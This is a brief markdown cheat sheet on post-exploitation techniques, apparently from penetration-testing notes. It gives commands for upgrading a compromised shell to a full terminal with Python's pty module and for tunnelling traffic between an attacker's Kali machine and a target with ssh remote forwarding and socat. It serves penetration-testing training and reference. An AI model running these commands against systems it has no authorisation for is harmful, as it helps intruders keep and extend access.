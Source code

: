 # Post Exploitation

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## Remote Forwarding

> <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

=== "ssh"

	Open port 8080 in kali machine and forward traffic to target machine.

	``` bash
	ssh -R $myip:8080:$target:8080 kali@$myip
	```

=== "socat"

	Redirect all port 80 conenctions to ip target

	``` bash
	socat TCP-LISTEN:80,fork TCP:$target:80
	```
